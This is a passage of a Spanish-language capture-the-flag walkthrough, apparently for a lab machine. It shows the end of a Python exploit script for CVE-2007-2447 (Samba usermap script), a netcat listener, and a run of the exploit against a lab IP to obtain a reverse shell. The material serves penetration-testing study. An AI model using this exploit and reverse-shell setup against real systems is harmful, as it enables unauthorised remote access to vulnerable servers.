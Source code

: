 ```python
  15   │             conn.connect(rhost, int(rport), timeout=1)
  16   │         except:
  17   │             print("[+] Payload was sent - check netcat !")
  18   │ 
  19   │ if __name__ == '__main__':
  20   │     print("[*] CVE-2007-2447 - Samba usermap script")
  21   │     if len(sys.argv) != 5:
  22   │         print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
  23   │     else:
  24   │         print("[+] Connecting !")
  25   │         rhost = sys.argv[1]
  26   │         rport = sys.argv[2]
  27   │         lhost = sys.argv[3]
  28   │         lport = sys.argv[4]
  29   │         exploit(rhost, rport, lhost, lport)
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```
<br>
Para ejecutar el script se necesitan los siguientes parámetros.

```markdown
  * `RHOST` -- The target address
  * `RPORT` -- The target port (TCP : 445)
  * `LHOST` -- The listen address
  * `LPORT` -- The listen port

```
<br>
Antes de ejecutar el script nos pondremos por escucha con `netcat` por el puerto equivalente al `LPORT` en nuestro caso el `1234`

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...

```
<br>
Ejecutamos el script y agregamos los parámetros necesarios.

```python
[-] usage: python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>

python3 usermap_script.py 10.10.10.3 445 10.10.16.3 1234
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !

```
<br>
Como el propio script nos dice vamos a ver si hemos conseguido entablar la reverse shell.
